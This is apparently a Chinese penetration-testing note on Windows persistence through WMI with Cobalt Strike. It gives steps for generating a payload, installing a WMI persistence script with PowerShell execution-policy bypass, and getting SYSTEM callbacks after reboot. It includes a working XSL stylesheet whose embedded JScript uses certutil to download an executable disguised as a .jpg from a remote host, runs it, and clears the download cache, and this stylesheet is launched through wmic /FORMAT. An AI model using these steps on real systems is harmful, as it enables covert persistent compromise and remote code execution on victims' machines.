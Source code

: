 	https://gitee.com/RichChigga/WMI-Persistence
	cobalt strike ->payload generator->powershell(use x64)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/525.png)

	attack->文件下载，文件选择payload generator的脚本，local uri为随意文件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/526.png)

	生成后地址替换进WMI-Persistence脚本内
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/527.png)

	# powershell -exec bypass
	PS > Import-Module .\WMI-Persistence.ps1
	PS > Install-Persistence
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/528.png)

	PS > Check-WMI  重启后即可上线system权限(要等待4-6分钟)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/529.png)

	自定义上线
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/530.png)

	attack->文件下载，exe木马指定为文件。local uri为随意文件，wmi.xsl放在web目录
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/531.png)

	修改wmi.xsl
```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
    <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c certutil -urlcache -split -f http://192.168.0.107/load.jpg %temp%/load.exe & %temp%/load.exe & certutil.exe -urlcache -split -f http://192.168.0.107/load.jpg delete",0);
    ]]> </ms:script>
</stylesheet>

```
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/532.png)

	WMI-Persistence脚本修改payload地址为wmi.xsl
	$finalPayload=" wmic os get /FORMAT:`"$Payload`""
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/533.png)

	>powershell -exec bypass
	PS > Import-Module .\WMI-Persistence.ps1
	PS > Install-Persistence
	PS > Check-WMI
	PS > Remove-Persistence 删除模块
	重启后即可上线
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/534.png)
